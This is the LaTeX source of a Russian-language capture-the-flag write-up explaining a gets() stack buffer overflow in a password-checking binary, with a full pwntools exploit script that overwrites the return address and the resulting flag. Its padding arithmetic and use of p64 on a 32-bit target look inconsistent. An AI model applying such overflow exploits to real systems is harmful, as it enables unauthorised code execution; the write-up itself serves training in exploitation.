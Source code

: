 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
Нам дается простенький бинарь, спрашивающий пароль. При декомпиляции первое, на что падает взгляд - использование функции \verb|gets()|. От этого буквально несет переполнением буфера. Остается понять, насколько его переполнять. Если взглянуть на пролог функции \verb|remote_system_health_check()|, то становится понятно, что содержимое стека в данном случае выглядит как \verb|ebp + buffer|. Размер буфера тоже виден ниже и равен $0x108$, что в более привычной для нас десятичной системе счисления равняется $264$. Таким образом, пайлоад будет выглядеть как: \verb|password + \x00 + padding + RA|. То есть требуемый пароль, нулевой байт для того, чтобы функция \verb|strcmp()| "правильно" сравнила строки, после чего забивание буфера и \verb|ebp| и перезапись адреса возврата. Остается понять, сколько же нужно забивать. Так как наш пароль выглядит как \verb|sUp3r_S3cr3T_P4s5w0rD| и его длина равна $21$, то из $264$ байт у нас остается $242$ (не забываем про нулевой байт в конце строки). Отлично, буфер забит. Нужно добавить еще $4$ байта для того, чтобы дойти до адреса возврата сквозь \verb|ebp|. И не стоит забывать, что функция \verb|gets()| автоматически добавляет в конец нулевой байт - то есть из получившихся $246$ нужно вычесть $1$ и получить $245$ - длину нашего смещения. Ну и еще стоит вспомнить, что адреса хранятся в little-endian. Таким образом, сплойт будет выглядеть следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='i386')

BINARY = './system_health_checker'
REMOTE = True


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

	r.recvline()

    padding = "A" * 245
    RA = p64(0x0804928c)

    r.sendline("sUp3r_S3cr3T_P4s5w0rD\x00" + padding + RA)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

После чего получаем флаг \verb|oren_ctf_baron_samedit!|

\end{document}
